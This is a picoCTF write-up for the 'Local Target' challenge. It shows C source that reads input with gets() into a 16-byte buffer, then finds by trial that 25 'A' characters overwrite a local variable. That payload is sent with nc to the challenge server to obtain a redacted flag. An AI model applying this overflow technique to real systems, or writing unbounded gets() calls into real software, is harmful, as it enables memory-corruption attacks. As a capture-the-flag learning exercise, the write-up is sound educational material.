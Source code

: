 # Local Target

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoGym Exclusive, Binary Exploitation, gets
Author: OVERTHEWIRE.ORG / LT 'SYREAL' JONES

Description:

Smash the stack
Can you overflow the buffer and modify the other local variable? 

The program is available here. You can view source here. And connect with it using:
`nc saturn.picoctf.net 56895`
 
Hints:
1. Do anything you can to change num.
2. When you change num, view the value as hexadecimal.
```
Challenge link: [https://play.picoctf.org/practice/challenge/399](https://play.picoctf.org/practice/challenge/399)

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

Our mission is to change the local variable `num` with a value of 64 to a value of 65.
This can easily be done since the `gets` function doesn't have any length restrictions.
So if we input more than the memory reserved for the input, the 16-byte variable `input`,  
`num` will be overwritten.

### Create an "exploit" and verify it locally

The `gets` function reads the input as text. What character should we overwrite with?
The ASCII value of decimal 65 corresponds to 'A'.
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print(chr(65))"
A
```

We probably could getway with inputting say 64 A:s but let's find out specifically how many A:s  
are needed to overwrite `num`. This usually isn't as easy as 16+1 A:s due to the compiler's  
stack alignment etc.

Let's use Python to print A:s and start with say 22 (something a bit higher than 16+1) of them.  
Then we increase the number of A:s step by step until `num` is changed.
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*22)" | ./local-target
Enter a string: 
num is 64
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*23)" | ./local-target
Enter a string: 
num is 64
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*24)" | ./local-target
Enter a string: 
num is 0
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | ./local-target
Enter a string: 
num is 65
You win!
Cannot open file.
```

So 25 A:s are needed to overwrite `num`.
The error message is due to the fact that there is no 'flag.txt' file in the current directory.

### Connect to the server and get the flag

Finally, let's send our tiny exploit to the server
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 56895  
Enter a string: 
num is 65
You win!
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)

